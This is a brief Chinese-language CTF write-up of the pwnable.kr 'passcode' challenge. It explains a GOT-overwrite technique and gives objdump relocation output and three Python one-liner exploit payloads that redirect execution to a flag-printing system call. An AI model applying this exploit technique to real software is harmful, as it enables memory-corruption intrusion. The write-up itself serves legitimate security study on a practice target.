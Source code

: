 ### passcode

`ssh passcode@pwnable.kr -p2222`

1. 看到passcode1的地方有一个任意地址写，第一反应是写返回地址，但不可行，原因是 **栈地址随机，需要info leak**
2. 所以需要去写一个不变的东西，这里选择写GOT表中被调用过的function，例如printf,fflush,exit，将其写为 **system(/bin/cat flag)** 的值

新学了一个命令来查看GOT表：`objdump -R file`

```
passcode@ubuntu:~$ objdump -R passcode

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

可以看到`printf`,`fflush`,`exit`的offset而且下文有对这几个函数的调用，可以写出3个exp，即在GOT表写入0x080485E3。

exp:
```
python -c 'print "A"*96 + "\x00\xa0\x04\x08" + "134514147\n"' | ./passcode
python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "134514147\n"' | ./passcode
python -c 'print "A"*96 + "\x18\xa0\x04\x08" + "134514147\n"' | ./passcode
```

